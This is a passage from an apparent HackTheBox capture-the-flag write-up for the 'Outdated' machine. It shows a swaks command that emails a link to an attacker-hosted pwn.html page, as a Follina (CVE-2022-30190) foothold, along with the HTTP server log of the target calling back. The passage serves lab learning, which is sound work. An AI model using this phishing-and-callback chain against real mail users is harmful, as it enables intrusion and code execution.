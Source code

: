 ### Step 3
The initial vectors on this machine are slim and I can't see any other way in then utilizing SMTP, especially since CVE-2022-30190 (Follina) is listed in the PDF, so I decide to reboot the box - but to no avail. At this point I needed a sanity check so I went to the HackTheBox discord to confirm my suspicions, and sure enough SMTP is the vector for foothold. 

I waited for a day before continuing, and heard that the box should be fixed and more stable. 

Instead of logging in to the remote SMTP server over telnet, or using my own local SMTP server, we can try a third option - `swaks`. 

```bash
➜  outdated swaks --to itsupport@outdated.htb --from 0xpthree@exploit.se --server mail.outdated.htb --body "http://10.10.14.6/pwn.html"
=== Trying mail.outdated.htb:25...
=== Connected to mail.outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO void
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<0xpthree@exploit.se>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Mon, 15 Aug 2022 15:14:51 +0200
 -> To: itsupport@outdated.htb
 -> From: 0xpthree@exploit.se
 -> Subject: test Mon, 15 Aug 2022 15:14:51 +0200
 -> Message-Id: <20220815151451.031141@void>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.14.6/pwn.html
 -> 
 -> 
 -> .
<-  250 Queued (10.406 seconds)
 -> QUIT
<-  221 goodbye
```

```bash
➜  outdated python3 -m http.server 80                                                                                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.175 - - [16/Aug/2022 09:05:43] code 404, message File not found
10.10.11.175 - - [16/Aug/2022 09:05:43] "GET /pwn HTTP/1.1" 404 -
```

The machine is indeed fixed and now we get callbacks! However I had huge problems to get this next part to fly.
